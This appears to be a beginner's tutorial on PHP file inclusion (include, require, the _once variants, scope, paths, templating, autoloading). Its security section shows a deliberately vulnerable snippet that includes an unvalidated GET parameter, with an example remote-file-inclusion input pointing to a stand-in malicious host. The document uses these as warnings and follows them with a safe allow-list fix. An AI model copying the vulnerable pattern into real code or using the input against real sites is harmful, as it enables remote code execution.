

# PHP File Inclusion

## Introduction

When building PHP applications, you'll often need to split your code into multiple files to make it more organized and maintainable. PHP provides several functions to include external files into your scripts, allowing you to create modular and reusable code. This process is known as **file inclusion**.

In this tutorial, we'll explore how to use PHP's file inclusion functions, understand the differences between them, and see practical examples of how they can improve your coding workflow.

## Understanding PHP File Inclusion

File inclusion is a mechanism that allows you to insert code from one PHP file into another. This enables you to:

- Organize your code into logical sections
- Reuse common code across multiple pages
- Create templates for consistent layouts
- Separate business logic from presentation
- Maintain your application more efficiently

PHP offers four main functions for including files:

1. `include()`
2. `require()`
3. `include_once()`
4. `require_once()`

Let's explore each of these functions in detail.

## The `include()` Function

The `include()` function incorporates and evaluates the specified file. If the file is not found, PHP will issue a warning but continue script execution.

### Syntax

```php
include 'filename.php';
```

### Example

Let's say we have two files: `header.php` and `index.php`.

**header.php**:
```php
<?php
echo "<header>
        <h1>My Website</h1>
        <nav>
            <a href='index.php'>Home</a>
            <a href='about.php'>About</a>
            <a href='contact.php'>Contact</a>
        </nav>
      </header>";
?>
```

**index.php**:
```php
<!DOCTYPE html>
<html>
<head>
    <title>My Website</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <?php include 'header.php'; ?>
    
    <main>
        <h2>Welcome to My Website</h2>
        <p>This is the homepage of my website.</p>
    </main>
</body>
</html>
```

**Output**:
When you load `index.php` in your browser, it will display:

```
My Website
Home | About | Contact

Welcome to My Website
This is the homepage of my website.
```

By including `header.php`, we've created a reusable navigation component that can be included in all pages of our website.

## The `require()` Function

The `require()` function works almost identically to `include()`, but with one key difference: if the file cannot be found, PHP will generate a fatal error and stop script execution.

### Syntax

```php
require 'filename.php';
```

### Example

Let's modify our previous example to use `require()` instead:

**index.php**:
```php
<!DOCTYPE html>
<html>
<head>
    <title>My Website</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <?php require 'header.php'; ?>
    
    <main>
        <h2>Welcome to My Website</h2>
        <p>This is the homepage of my website.</p>
    </main>
</body>
</html>
```

The output would be the same as before. However, if `header.php` doesn't exist:

- With `include()`: You would see a warning, but the rest of the page would still load.
- With `require()`: The script would terminate with a fatal error.

Use `require()` when the file is absolutely necessary for your application to function properly.

## The `include_once()` and `require_once()` Functions

These functions work like their counterparts but ensure that the file is included only once, even if you call the function multiple times. This is particularly useful for including class definitions or function libraries.

### Syntax

```php
include_once 'filename.php';
require_once 'filename.php';
```

### Example

Let's say we have a file called `functions.php` that contains important utility functions:

**functions.php**:
```php
<?php
function calculateTax($amount, $rate = 0.1) {
    return $amount * $rate;
}

function formatCurrency($amount) {
    return '$' . number_format($amount, 2);
}
?>
```

Now, we can include this file in multiple scripts:

**product.php**:
```php
<?php
require_once 'functions.php';

$productPrice = 49.99;
$taxAmount = calculateTax($productPrice);
$totalPrice = $productPrice + $taxAmount;

echo "Product Price: " . formatCurrency($productPrice) . "<br>";
echo "Tax: " . formatCurrency($taxAmount) . "<br>";
echo "Total: " . formatCurrency($totalPrice);
?>
```

**Output**:
```
Product Price: $49.99
Tax: $5.00
Total: $54.99
```

Even if another script that has already included `functions.php` includes `product.php`, the functions won't be redefined because we used `require_once`.

## Variables and Scope in Included Files

When you include a file, any variables defined in that file become available in the scope where the inclusion occurred.

### Example

**config.php**:
```php
<?php
$dbHost = "localhost";
$dbUser = "root";
$dbPass = "password";
$dbName = "myapp";

$siteTitle = "My Amazing Website";
$footerText = "© " . date("Y") . " My Amazing Website. All rights reserved.";
?>
```

**contact.php**:
```php
<?php include 'config.php'; ?>
<!DOCTYPE html>
<html>
<head>
    <title>Contact - <?php echo $siteTitle; ?></title>
</head>
<body>
    <h1>Contact Us</h1>
    <p>Send us a message!</p>
    
    <footer>
        <?php echo $footerText; ?>
    </footer>
</body>
</html>
```

In this example, `contact.php` has access to the variables defined in `config.php`.

## Paths in File Inclusion

PHP supports both relative and absolute paths when including files.

### Relative Paths

```php
// Include from the same directory
include 'header.php';

// Include from a subdirectory
include 'includes/header.php';

// Include from a parent directory
include '../common/header.php';
```

### Absolute Paths

```php
// Using full server path
include '/var/www/html/mysite/includes/header.php';

// Using the __DIR__ constant (recommended)
include __DIR__ . '/includes/header.php';
```

Using `__DIR__` is recommended as it always points to the directory of the current file, making your includes more reliable across different server environments.

## Creating a Simple Template System

One of the most practical applications of file inclusion is creating a template system. Let's build a simple one:

### File Structure

```
/
├── includes/
│   ├── header.php
│   ├── footer.php
│   └── sidebar.php
├── index.php
├── about.php
└── contact.php
```

**includes/header.php**:
```php
<?php
$pageTitle = $pageTitle ?? 'Default Page Title';
?>
<!DOCTYPE html>
<html>
<head>
    <title><?php echo $pageTitle; ?> - My Website</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <header>
        <h1>My Website</h1>
        <nav>
            <a href="index.php">Home</a>
            <a href="about.php">About</a>
            <a href="contact.php">Contact</a>
        </nav>
    </header>
    <div class="container">
```

**includes/footer.php**:
```php
    </div>
    <footer>
        <p>© <?php echo date('Y'); ?> My Website. All rights reserved.</p>
    </footer>
</body>
</html>
```

**includes/sidebar.php**:
```php
<aside class="sidebar">
    <h3>Latest Posts</h3>
    <ul>
        <li><a href="#">Getting Started with PHP</a></li>
        <li><a href="#">Understanding Variables</a></li>
        <li><a href="#">Working with Arrays</a></li>
    </ul>
</aside>
```

**index.php**:
```php
<?php
$pageTitle = 'Home';
include 'includes/header.php';
?>

<div class="main-content">
    <h2>Welcome to My Website</h2>
    <p>This is the homepage of my website.</p>
</div>

<?php
include 'includes/sidebar.php';
include 'includes/footer.php';
?>
```

With this structure, all your pages can share the same header, footer, and sidebar, creating a consistent layout across your site while keeping your code DRY (Don't Repeat Yourself).

## Use Cases for File Inclusion

Here are some common use cases for PHP file inclusion:

### 1. Configuration Files

Store database credentials, site settings, and other configuration values in a separate file:

```php
// config.php
<?php
return [
    'database' => [
        'host' => 'localhost',
        'username' => 'root',
        'password' => 'secret',
        'name' => 'myapp'
    ],
    'app' => [
        'name' => 'My Application',
        'debug' => true
    ]
];
```

```php
// index.php
<?php
$config = include 'config.php';
echo "Welcome to " . $config['app']['name'];

// Connect to database
$conn = new mysqli(
    $config['database']['host'],
    $config['database']['username'],
    $config['database']['password'],
    $config['database']['name']
);
?>
```

### 2. Function Libraries

Create reusable functions in separate files:

```php
// helpers.php
<?php
function slugify($text) {
    $text = strtolower($text);
    $text = preg_replace('/[^a-z0-9]+/', '-', $text);
    $text = trim($text, '-');
    return $text;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}
?>
```

### 3. Class Autoloading

Modern PHP applications often use class autoloading instead of manually including each class file:

```php
// autoload.php
<?php
spl_autoload_register(function ($className) {
    $path = str_replace('\\', '/', $className);
    require_once __DIR__ . '/classes/' . $path . '.php';
});
```

```php
// index.php
<?php
require_once 'autoload.php';

// Now you can use classes without explicitly including them
$user = new App\Models\User();
$post = new App\Models\Post();
?>
```

## Common Errors and Troubleshooting

When working with file inclusion, you might encounter these common issues:

### 1. "File Not Found" or "Failed to Open Stream" Errors

```
Warning: include(header.php): Failed to open stream: No such file or directory
```

**Solution**: Check your file paths. Use absolute paths with `__DIR__` for more reliability:

```php
include __DIR__ . '/includes/header.php';
```

### 2. Redeclaration Errors

```
Fatal error: Cannot redeclare function_name() in /path/to/file.php
```

**Solution**: Use `include_once` or `require_once` to prevent multiple inclusions:

```php
require_once 'functions.php';
```

### 3. Unexpected Output

If your included files have unintended whitespace outside the PHP tags, they can cause issues with HTTP headers.

**Solution**: Make sure your included files don't have extra whitespace before `<?php` or after `?>`, or consider omitting the closing PHP tag altogether in files that contain only PHP code.

## Best Practices for File Inclusion

Follow these best practices to ensure your file inclusions are secure and maintainable:

1. **Use absolute paths** with `__DIR__` to avoid path-related issues.
2. **Prefer `require_once`** for files containing functions or classes to prevent redeclaration errors.
3. **Keep sensitive configuration** in files outside the web root directory.
4. **Never include user-provided filenames** without proper validation to prevent remote file inclusion vulnerabilities.
5. **Organize your files** into a logical directory structure.
6. **Consider using an autoloader** for class files in larger projects.

## File Inclusion Security

It's crucial to understand the security implications of file inclusion. Never include files based on unvalidated user input, as this can lead to Remote File Inclusion (RFI) or Local File Inclusion (LFI) vulnerabilities.

### Dangerous Example (Never Do This):

```php
// Extremely dangerous!
$page = $_GET['page'];
include $page . '.php';
```

If a user sets `?page=http://malicious-site.com/evil-script`, your application could include and execute malicious code.

### Safer Approach:

```php
$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'] ?? 'home';

if (in_array($page, $allowed_pages)) {
    include __DIR__ . '/pages/' . $page . '.php';
} else {
    include __DIR__ . '/pages/404.php';
}
```

This approach only allows inclusion of a predefined set of pages.

## Visualizing File Inclusion



## Summary

PHP file inclusion is a powerful feature that allows you to organize your code into modular, reusable components. Here's what we've covered:

- The four inclusion functions: `include()`, `require()`, `include_once()`, and `require_once()`
- The differences between these functions and when to use each one
- How to work with variables and scope in included files
- Using relative and absolute paths for file inclusion
- Creating a simple template system using file inclusion
- Common use cases like configuration files, function libraries, and class autoloading
- Troubleshooting common errors and security best practices

By mastering PHP file inclusion, you'll be able to create more organized, maintainable, and efficient PHP applications.

## Exercises

1. Create a simple website template with header, footer, and sidebar files.
2. Build a configuration file that stores database credentials and site settings.
3. Create a functions file with at least three useful utility functions.
4. Implement a basic class autoloader for a project with at least two classes.
5. Create a secure page navigation system that prevents file inclusion vulnerabilities.

## Additional Resources

- [PHP Manual: Include](https://www.php.net/manual/en/function.include.php)
- [PHP Manual: Require](https://www.php.net/manual/en/function.require.php)
- [PHP Manual: Include_once](https://www.php.net/manual/en/function.include-once.php)
- [PHP Manual: Require_once](https://www.php.net/manual/en/function.require-once.php)
- [PHP The Right Way: Autoloading](https://phptherightway.com/#autoloading)